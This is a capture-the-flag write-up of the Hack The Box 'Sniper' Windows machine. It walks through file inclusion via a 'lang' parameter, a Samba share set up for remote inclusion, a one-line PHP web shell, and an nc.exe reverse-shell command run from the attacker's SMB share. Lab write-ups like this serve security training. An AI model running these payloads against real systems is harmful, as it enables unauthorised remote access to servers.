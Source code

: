 # 10 - HTTP



# Sniper Co.
![](vx_images/780010819854.png)


We have a plenty of information, the most interesting ones are  **User Portal** and **Our Services**. User Portal is *under development*. Let's keep that in mind and go see the `Our services`.


# Possible local file inclusion
![](vx_images/3987069777504.png)

While changing the language on the top left corner of the blog , I noticed the `lang` value has the extension .php. The parameter is a perfect candidate for LFI. Since this is a windows box let's try to reach `c:\Windows\System32\drivers\etc\hosts`



# Local file inclusion

![](vx_images/4162858907318.png)

As we can see from the response we managed to include a local file. Now with this in our pocket we can also try remote file inclusion.

# Remote File Inclusion
There is an impacket tool smbserver.py but unfortunately smb2support flag says *SMB2 Support (experimental!)* and as a result, smb is not working properly with the Sniper box. We can use another good server, Samba.


# [/etc/samba/smb.conf](https://ubuntu.com/tutorials/install-and-configure-samba#3-setting-up-samba)

```bash
[htb]
   comment = Sniper
   path = /home/<username>/htb/share
   guest ok = yes
   read only = no
   browseable = yes
   create mask = 0600
```


Add these lines to the bottom of the file and start the server. Don't forget to create the *share* directory we specified in smb.conf.


```bash
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper/www]
└──╼ $ sudo systemctl start  smbd.service 
```


# RFI test file
```bash
┌─[user@parrot]─[10.10.14.10]─[/srv/smb]
└──╼ $ cat rev.txt 
malicious remote file is included
```


![](vx_images/3794714801645.png)

Our remote file inclusion efforts result in success.


# Php reverse shell

```bash
┌─[root@parrot]─[/srv/smb]
└──╼ #cat rev.php 
<?php  system($_REQUEST['cmd']);?>
```


I have been trying to get **IEX** way reverse shell with **Invoke-PowerShellTcp.ps1** but  requests do not even hit the server. I was suspicious of an AV in place but before flagging the powershell script as malicious, AV needs to inspect the file so that can't be AV because there is no file getting downloaded.

Powershell might be executing in a restricted environment. Let's find out



# Constrained mode
![](vx_images/4270401433185.png)

Our assumption turns out to be correct. We can still try to upload nc.exe and get a reverse shell from that. 


# Reverse shell payload
```sql
cmd=\\10.10.14.10\htb\nc.exe -e powershell.exe 10.10.14.10 4444
```

We have an smb server running already and windows can execute code from smb shares.


# Reverse shell returned
```bash
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
10.10.10.151: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.151] 64589
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\blog> whoami
whoami
nt authority\iusr
```